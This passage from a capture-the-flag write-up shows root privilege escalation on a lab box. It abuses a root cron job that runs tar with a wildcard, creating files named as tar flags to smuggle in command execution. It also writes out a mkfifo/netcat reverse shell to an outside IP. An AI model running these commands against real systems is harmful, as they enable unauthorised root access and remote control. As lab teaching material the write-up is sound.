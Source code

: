 ```
```

We now have a shell.

```
$ whoami
www-data
```

After some previous poking around with our RFI; I found that `crontab` runs `/home/milesdyson/backups/backup.sh` as root, every minute.

We could try inject the same "`nc` `mkfifo`" shell we're already using, in that shell script.


Note that the `backup.sh` file in `home/milesdyson/backups/` references some command `tar` _after_ `cd`ing to `/var/html/www`.

At first I considerered the possibility of exploiting PATH variables. But this would only persist for the current shell session. So instead, we need to exploit the usage of wildcards `*` in the tar statement.

We can "inject" exploitable flags into the `tar` command, which was something like `tar -cf something.tar *`, by adding files with names akin to the flags used by tar. 

If we create these files with, for example; 

```
touch "--checkpoint=1";
touch "--checkpoint-action=exec=sh exploit.sh";
```

When these files are included in the backup call to `/var/www/html`, they will be appended where the wild cards are:

`tar -cf something.tar file1.txt file2.txt --checkpoint=1 --checkpoint-action=exec=sh exploit.sh`

In effect, upon compressing arbitrary `file1` and `file2`, `checkpoint 1` is reached and thus `exec=sh exploit.sh` is fired. Of course we will need our reverse tcp shell code in the `exploit.sh` file.

We can just use netcat, with the mkfifo method we used earlier.

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.4.4 4444 >/tmp/f" >> /var/www/html/exploit.sh `

And of course, listen for netcat connection on the attacker system. Note, if you miss the connection, it'll call every minute as the `crontab` is a fired every minute.

This will give you root. 

The root flag is in `/root/root.txt`.

